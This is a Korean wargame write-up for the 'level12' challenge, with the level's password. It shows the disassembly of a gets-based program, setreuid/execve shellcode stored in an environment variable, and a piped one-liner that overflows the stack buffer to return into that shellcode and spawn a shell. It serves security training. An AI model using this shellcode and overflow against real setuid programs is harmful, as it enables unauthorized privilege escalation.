




# level 12

* id : `level12`
* pw : `it is like this`



level 11과 유사하지만, 이번엔 `gets`를 이용하고 `Format string` 공격이 불가능하다.


```python
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108            # 배열 길이
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc15
0x08048481 <main+17>:   push   0xc15
0x08048486 <main+22>:   call   0x804835c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0xc
0x08048491 <main+33>:   push   0x8048538
0x08048496 <main+38>:   call   0x804834c <printf>
0x0804849b <main+43>:   add    esp,0x10
0x0804849e <main+46>:   sub    esp,0xc
0x080484a1 <main+49>:   lea    eax,[ebp-264]
0x080484a7 <main+55>:   push   eax
0x080484a8 <main+56>:   call   0x804831c <gets>
0x080484ad <main+61>:   add    esp,0x10
0x080484b0 <main+64>:   sub    esp,0x8
0x080484b3 <main+67>:   lea    eax,[ebp-264]
0x080484b9 <main+73>:   push   eax
0x080484ba <main+74>:   push   0x804854c
0x080484bf <main+79>:   call   0x804834c <printf>
0x080484c4 <main+84>:   add    esp,0x10
0x080484c7 <main+87>:   leave
0x080484c8 <main+88>:   ret
0x080484c9 <main+89>:   lea    esi,[esi]
0x080484cc <main+92>:   nop
0x080484cd <main+93>:   nop
0x080484ce <main+94>:   nop
0x080484cf <main+95>:   nop
```

`level11`과 유사하다. 마찬가지로 환경변수에 쉘코드를 집어넣고 BOF를 시도해 보겠다.

```bash
export EGG=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```





`level11` 처럼 환경변수의 주소 획득, `0xbffffc90` 인것을 알수 있다.

하지만 문제점이, 여기선 argv를 사용하지 않고 프로그램을 연 후 input으로 해야된다.

그렇기 때문에 [파이프라인](https://en.wikipedia.org/wiki/Pipeline_(Unix)) 을 이용해서 입력값에다가 원하는 코드를 입력하면 정상적으로 쉘코드 주입이 완료된다.

```bash
(python -c 'print "A"*(0x10c) + "\x90\xfc\xff\xbf"'; cat) | ./attackme
```
`(python -c 'print "A"*(0x10c) + "\x90\xfc\xff\xbf"'; cat)` 은 파이썬 명령을 실행하고 그걸 그대로 출력하게 만들어주고, 그 결과를 `pipe` 를 통해 attackme 에 대한 입력값으로 넣어준다.



GG!